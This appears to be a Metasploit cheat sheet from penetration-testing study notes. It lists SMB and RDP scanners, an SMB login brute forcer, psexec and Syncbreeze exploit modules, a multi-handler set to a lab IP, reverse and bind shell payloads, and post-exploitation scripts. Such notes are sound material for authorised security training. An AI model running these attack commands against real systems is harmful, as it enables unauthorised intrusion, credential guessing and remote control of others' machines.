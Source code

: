 # Useful modules

### Auxiliary Modules

```bash
# TCP Port scanner
use scanner/portscan/tcp	
	set rhosts

# Detects if system supports SMB 2.0
use scanner/smb/smb2		
	set rhosts

# SMB login brute forcer
use scanner/smb/smb_login	
    set rhosts			
    set smbdomain		
    set threads			# Number of concurrent attempts
    # You can either try a single user/pass with these
    set smbuser			
    set smbpass 		
    # Or generate a list to try with this
    set userpassfile	# file with users and passwords separated by space, one pair per line

# RDP port scanner
use scanner/rdp/rdp_scanner		
	set rhosts

# Autoroute manager
use multi/manage/autoroute
	set session

# SOCKS4 proxy
use auxiliary/server/socks4a
	set session
```

### Recon Modules

```bash
# From an already established meterpreter prompt:
bg
use multi/recon/local_exploit_suggester
run
```

### Multi Handler

```bash
use exploit/multi/handler
    set LHOST 192.168.119.216
    set LPORT 8000
# You must tell the multi-handler what kind of payload to expect
    # Reverse HTTPS
    set payload windows/meterpreter/reverse_https
    # Reverse TCP
    set payload windows/meterpreter/reverse_tcp
run
```

### Exploit Modules

```bash
# Syncbreeze, the poster child of OSCP
use exploit/windows/http/syncbreeze_bof

# Exploit SMB to run code
use exploit/windows/smb/psexec
	set rhosts
	set SMBDomain
	set SMBUser
	set SMBPass
```

### Payloads

Modules select a default payload but it's better to select one.

#### Compatible Payloads

```bash
show payloads
```

#### Windows

```bash
# Note Reverse shells start their own listeners in MSF
# TCP Reverse Shell
set payload windows/shell_reverse_tcp

# Meterpreter HTTP Reverse Shell
set payload windows/meterpreter/reverse_http

# Meterpreter Bind TCP SHell
set payload windows/meterpreter/bind_tcp
```

#### Linux

```bash
# Meterpreter
set payload linux/x64/meterpreter/bind_tcp
set payload linux/x64/meterpreter/reverse_tcp
```

#### Others

```bash
# Reverse VNC Connection
set payload vncinject/reverse_http

# Reverse PHP shell
set payload php/reverse-php 

# Z/OS Mainframe reverse shell
set payload mainframe/reverse_shell_jcl
```

### Auto-Run Scripts

```bash
# Enumerate users
set AutoRunScript windows/gather/enum_logged_on_users

# Migrate from one process to another more stable one.  Good when injected into PE's that will close on completion
set AutoRunScript post/windows/manage/migrate
```


